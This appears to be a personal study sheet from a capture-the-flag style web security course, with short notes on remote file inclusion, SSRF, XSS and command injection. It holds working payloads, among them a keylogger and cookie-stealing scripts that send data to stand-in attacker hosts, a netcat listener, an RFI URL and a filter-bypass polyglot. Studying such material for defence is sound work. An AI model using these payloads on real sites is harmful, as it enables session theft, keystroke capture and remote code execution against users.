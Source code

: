 **Remote File Inclusion - RFI**
- One requirement for RFI is that the ``` allow_url_fopen ``` option needs to be on.
- ``` allow_url_include ```
- https://www.php.net/manual/en/filesystem.configuration.php#ini.allow-url-fopen
- lead server to execute code from attacker`s server.
- start attack server: ``` sudo python3 -m http.server ```
- prepare payload: cmd.txt: ``` <?php print exec('hostname');?> ```
- lead victim server to execute it: http://webapp.htm/get.php?file=http://attacker.thm/cmd.txt

## SSRF
- server side request forgery
- 2 types: regular, blind.
- ![image](https://user-images.githubusercontent.com/91292763/147397891-1b4af01a-9f39-4b36-bd33-05bc21b2313e.png)
- requestbin.com

## XSS
- cross-site scripting
- Key Logger js: ``` document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );} ```
- Session Stealing js: ``` fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie)); ```

**DOM Based XSS**
- DOM: https://www.w3.org/TR/REC-DOM-Level-1/introduction.html
- ``` window.location.hash ``` parameter.
- js: eval() function is very vulnerable.

**Blind Xss**
- https://xsshunter.com/
- ``` /images/cat.jpg" onload="alert('HTM'); ``` When upload an image, but server filter '<' and '>', we can use onload function.
 
**Polyglots**:
- Can help you bypass all filters.
- ``` jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e ```
- https://blog.ostorlab.co/polyglot-xss.html

Get cookie from xss:
- net cat: ``` nc -nlvp 9001 ``` start server.
- ``` fetch('http://{URL_OR_IP}:9001?cookie=' + btoa(document.cookie) ); ```
- wait for the victim.

## Command Injection
- also often known as “Remote Code Execution” (RCE) 
- https://owasp.org/www-project-top-ten/
- https://www.contrastsecurity.com/security-influencers/insights-appsec-intelligence-report
- php vulnerable functions: ``` Exec ```, ``` Passthru ```, ``` System ```
- php: ``` filter_input ``` https://www.php.net/manual/en/function.filter-input.php
- use hexadecimal value to bypass the filter.
- cheat sheet for more payloads: https://github.com/payloadbox/command-injection-payload-list
